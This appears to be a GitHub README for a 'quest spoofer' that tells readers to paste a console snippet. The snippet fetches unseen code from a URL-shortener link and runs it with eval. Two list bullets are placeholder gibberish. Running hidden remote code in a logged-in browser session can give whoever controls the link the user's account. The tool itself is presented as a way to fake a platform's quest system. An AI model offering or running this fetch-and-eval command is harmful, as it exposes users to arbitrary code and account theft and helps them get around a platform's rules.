 <p align="center"><img src="https://github.com/LazyDevv/Qose/blob/4e90f07b6533576ee30834e1ed7c3a0c6c3a46fe/quest.png" alt="activate"></p>

<h1 align="center">Quest Optimization Script Execution (Q.O.S.E.)</h1>

<p align="center">A spoofer based on @aamiaa's work, with a focus on streamlining the process for normies.</p>
<hr>

## Download / How to use it?

-   sadsad
-   Copy-paste the below code and press enter
    ```
    fetch('is.gd/Quests')
    .then(response => response.text())
    .then(script => eval(script));

    ```
-   sadasdsa
-   That's all.
---
[@aamiaa's work and original script.](https://gist.github.com/aamiaa/204cd9d42013ded9faf646fae7f89fbb)

---
<p align="center"> Made with <br>
    <img height="250" src="https://raw.githubusercontent.com/LazyDevv/Hilao/master/ctrlcctrlv.png" alt="ctrlcctrlv"></p>
